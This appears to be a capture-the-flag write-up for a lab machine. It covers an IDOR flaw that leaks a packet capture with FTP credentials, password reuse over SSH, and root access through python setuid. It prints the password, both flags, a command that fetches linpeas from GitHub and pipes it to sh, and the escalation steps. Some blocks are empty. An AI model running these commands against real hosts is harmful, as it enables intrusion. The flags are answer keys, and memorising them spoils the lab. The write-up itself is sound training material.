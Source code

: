 ﻿# ENUMERATION
---

## OPEN PORTS
---


| PORT | SERVICE |
| :--- | :------ |
| 21   | ftp     |
| 22   | ssh     |
| 80   | http    |

We have three open ports, let's begin with reconnaissance.

# RECONNAISSANCE
---
![Pasted image 20250107160531.png](../../IMAGES/Pasted%20image%2020250107160531.png)

This is the standard page, we have `Dashboard`, `Security Snapshot` `Ip Config` `Network Status`, let's check each of those:

![Pasted image 20250107160748.png](../../IMAGES/Pasted%20image%2020250107160748.png)

Security snapshot takes us to another URL, if we click download, we are able to get a `7.pcap` file, if we use wireshark to analyze that, it's empty, so, let's keep searching in order to find anything useful:

![Pasted image 20250107161541.png](../../IMAGES/Pasted%20image%2020250107161541.png)

We have an Ip section, nothing rare, let's keep searching:

![Pasted image 20250107161617.png](../../IMAGES/Pasted%20image%2020250107161617.png)

Also a netstat section, nothing seems off too, 

```ad-hint

That's when I realized that when we enter the security snapshot section, we get redirected to a `/data/number` URL, so, I thought that if an IDOR vulnerability is there on the website, we may be able to read another scans, I used burp and it was indeed true, that's when I got that scan `5` had the following:



Now we have packets to read! Let's download the file and analyze it with wireshark:


```


# EXPLOITATION
---


Nothing useful came from this. That's when I kept searching and found the `/data/0` file, let's analyze it:

![Pasted image 20250107163040.png](../../IMAGES/Pasted%20image%2020250107163040.png)

We found something useful!

A ftp string, let's follow it:

![Pasted image 20250107163123.png](../../IMAGES/Pasted%20image%2020250107163123.png)

Nice, we got some credentials, let's log into `nathan` user:

```ad-note
`nathan`: `Buck3tH4TF0RM3!`
```

![Pasted image 20250107163428.png](../../IMAGES/Pasted%20image%2020250107163428.png)

We got access, we can see a `user.txt` flag, let's get it and read it:

![Pasted image 20250107163514.png](../../IMAGES/Pasted%20image%2020250107163514.png)

User flag is `f763e899654614af8d5f2e6a886516a0`

I thought than since that password works for ftp, some users tend to have the same password in different services, so, let's try to log into ssh with those credentials:

![Pasted image 20250107163700.png](../../IMAGES/Pasted%20image%2020250107163700.png)

I was right, let's proceed with privilege escalation.

# PRIVILEGE ESCALATION
---

We can not use sudo on this machine with nathan user:

![Pasted image 20250107163815.png](../../IMAGES/Pasted%20image%2020250107163815.png)


Let's use linpeas in this machine and check what it got for us:

![Pasted image 20250107164042.png](../../IMAGES/Pasted%20image%2020250107164042.png)

We can use curl in the machine, so, we can perform: `curl -L https://github.com/peass-ng/PEASS-ng/releases/latest/download/linpeas.sh | sh`

![Pasted image 20250107164142.png](../../IMAGES/Pasted%20image%2020250107164142.png)

Nice, when linpeas finishes, we can see the following:

![Pasted image 20250107164513.png](../../IMAGES/Pasted%20image%2020250107164513.png)

This is the binary we'll use in order to perform PE, I asked chatgpt and it said we must do the following steps:

```ad-summary
1. `/usr/bin/python3.8`
2. `import os`
3. `os.setuid(0)` (As this is root ID)
4. `os.system("bash")`

#### PoC
----

We can also see this procedure in Gtfobins:


```

Just like that, CTF is done, let's read root flag and submit it:

![Pasted image 20250107165111.png](../../IMAGES/Pasted%20image%2020250107165111.png)

Root: `bb58eed72cb4312008e7262c59c17d7b`

Gg!

